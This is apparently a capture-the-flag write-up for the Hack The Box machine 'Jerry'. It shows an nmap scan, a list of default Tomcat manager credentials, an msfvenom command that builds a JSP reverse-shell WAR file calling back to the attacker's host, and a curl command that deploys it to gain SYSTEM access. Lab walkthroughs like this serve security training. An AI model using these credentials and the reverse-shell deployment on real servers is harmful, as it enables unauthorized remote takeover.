 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/3619cc3b-21db-49ff-a79c-428fdc70a66d)

first enumeration with nmap

```
# Nmap 7.93 scan initiated Sun Jun  4 23:45:28 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 8080 -Pn 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  4 23:45:42 2023 -- 1 IP address (1 host up) scanned in 14.31 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ca145581-c254-44b6-a8e8-c3a7a10bce7a)

there's a web server running on port `8080`, opening it on a browser, we can see it is running `apache tomcat 7.0.88`. let's exploit this service.
The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But this path is protected by basic HTTP auth, the most common credentials are:
```
admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
tomcat:s3cret
admin:s3cret
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c97a5819-0edd-47f1-a063-9a18bd36aa74)

using cred `tomcat:s3cret` and boom it worked. let's get RCE by uploading a war file.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Jerry]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.16 LPORT=1337 -f war -o revshell.war                               
Payload size: 1093 bytes
Final size of war file: 1093 bytes
Saved as: revshell.war
```
first we generate a war reverse shell using msfvenom. now let's deploy the war file.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Jerry]
└─$ curl --upload-file revshell.war -u 'tomcat:s3cret' "http://10.10.10.95:8080/manager/text/deploy?path=/revshell"
OK - Deployed application at context path /revshell
```
first we deployed the war file using curl.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b9873734-a203-42f0-9ff5-a8e3682e99ae)

after deploying the file, used curl to trigger the reverse shell and boom we got a  reverse shell as `nt authority\system`
